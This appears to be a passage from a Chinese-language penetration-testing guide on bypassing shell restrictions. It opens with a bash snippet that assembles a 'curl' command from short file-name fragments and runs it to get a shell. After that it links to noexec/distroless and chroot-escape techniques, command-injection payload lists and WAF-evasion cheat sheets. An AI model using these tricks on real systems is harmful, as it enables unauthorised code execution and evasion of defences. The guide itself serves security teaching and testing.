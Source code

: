 ```bash
'>ng\\'
'>ra\\'
'>o\\'
'>\ \\'
'>rl\\'
'>cu\\'

# got shell
'sh x'
'sh g'
```
## 只读/Noexec/Distroless绕过

如果你在一个具有**只读和noexec保护**甚至是在一个distroless容器中，仍然有办法**执行任意二进制文件，甚至是一个shell！:**

{% content-ref url="../bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/" %}
[bypass-fs-protections-read-only-no-exec-distroless](../bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/)
{% endcontent-ref %}

## Chroot和其他监狱绕过

{% content-ref url="../privilege-escalation/escaping-from-limited-bash.md" %}
[escaping-from-limited-bash.md](../privilege-escalation/escaping-from-limited-bash.md)
{% endcontent-ref %}

## 参考资料和更多

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits)
* [https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet](https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet)
* [https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)
* [https://www.secjuice.com/web-application-firewall-waf-evasion/](https://www.secjuice.com/web-application-firewall-waf-evasion/)

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

\
使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)轻松构建和**自动化工作流程**，由全球**最先进**的社区工具提供支持。\
立即获取访问权限：
